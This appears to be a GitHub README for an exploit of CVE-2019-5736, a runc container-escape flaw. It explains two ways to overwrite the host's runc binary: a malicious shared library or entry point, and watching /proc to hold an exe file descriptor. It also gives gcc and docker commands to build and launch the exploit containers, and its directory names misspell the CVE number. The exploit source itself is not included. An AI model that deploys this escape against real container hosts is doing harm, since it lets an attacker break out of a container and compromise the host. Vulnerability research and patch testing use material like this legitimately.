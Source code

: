 ### Exploit for CVE-2019-5736 

#### Version 1 (original from [DragonSector](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html))
use a malicious.so(which used by runc) with  malicious entry point (like #!/proc/self/exe) to hijack the execution of runc, and then open '/proc/self/exe' to hold the file descriptor. Then fork-exec to run another process, and the child process will inherit the file descriptor.  Finally, the child process is able to write to the fd after the runc exits.

> Notes:

> do not need privileged container;

> need a malicious entry point program. It's no problem for ```docker run```, but ```docker exec``` has to run that specific program.


* build and run 

		cd CVE-2019-5376/v1
		gcc run.c -o run -static
		gcc run.c -o libseccomp.so.2 -shared -fPIC
		docker build -t CVE-2019-5376-v1 .
		docker run CVE-2019-5376-v1


#### Version 2
start the malicious container first, and run a process (in a loop) to monitor new processes in /proc. On finding a new one, open  '/proc/{pid}/exe' to hold the file descriptor. Then it's the same like above.

> Notes:

> need privileged container

> works on every ```docker exec``` command towards the container, but will not work when using ```docker run``` to start the new container

* build and run 

		cd CVE-2019-5376/v2
		gcc run.c -o run -static
		docker build -t CVE-2019-5376-v2 .
		docker run -it --privileged --name test_instance CVE-2019-5376-v2
		
		# open another terminal, and run docker exec
		docker exec -it test_instance bash
---- 
